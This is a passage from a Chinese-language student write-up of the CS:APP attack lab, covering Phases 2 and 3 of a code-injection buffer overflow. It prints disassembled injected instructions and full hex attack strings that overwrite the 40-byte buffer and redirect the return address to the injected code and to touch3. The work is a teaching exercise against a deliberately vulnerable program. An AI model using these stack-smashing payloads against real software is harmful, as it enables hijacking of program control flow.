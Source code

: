 得到指令的字节编码：48 c7 c7 3c d4 9b 3b 68 5d 18 40 00 c3

```c
Touch2.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 3c d4 9b 3b 	mov    $0x3b9bd43c,%rdi
   7:	68 5d 18 40 00       	pushq  $0x40185d
   c:	c3                   	retq   
```

- 因此就是把这一段代码放入缓冲区：
  - 查看缓冲区的起始地址：得到此时的地址为0x556275e8。

![image-20211205195919504](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112060842120.png)

- 因此最后我们输入的代码由两部分组成：第一部分包含我们注入的代码，第二部分为我们刚才得到的缓冲区地址。

```c
//最后的攻击字符串：
/*
48 c7 c7 3c d4 9b 3b 68
5d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
//以上代码放慢缓冲区，为我们注入的代码
e8 75 62 55 00 00 00 00
//以上为缓冲区的起始地址，使得跳转到我们注入的代码
```

最终结果：

![image-20211205200738114](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112060842153.png)

# Phase 3

这次相较于第二阶段只是要求我们将指针传入`%rdi`。指针指向的是内存中cookie的字符串形式`3b9bd43c`

首先查看一下`touch3`的地址：`0x401976`

![image-20211205201304984](https://raw.githubusercontent.com/CorneliaStreet1/PictureBed/master/202112060842183.png)

man ASCII 找到cookie的字节符表示：`3b9bd43c`：`33 62 39 62 64 34 33 63`。

由于在`touch3`中调用其他函数会覆盖getbuf的缓冲区，所以我们先构造一个字符串进入`touch3`来确定我们的cookie字符串放在哪里不会被覆盖。

```c
/*
00 00 00 00 00 00 00 00
11 45 14 11 45 14 11 45
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
//以上覆盖40字节getbuf缓冲区
76 19 40 00 00 00 00 00
//上一行为touch3地址
*/
```
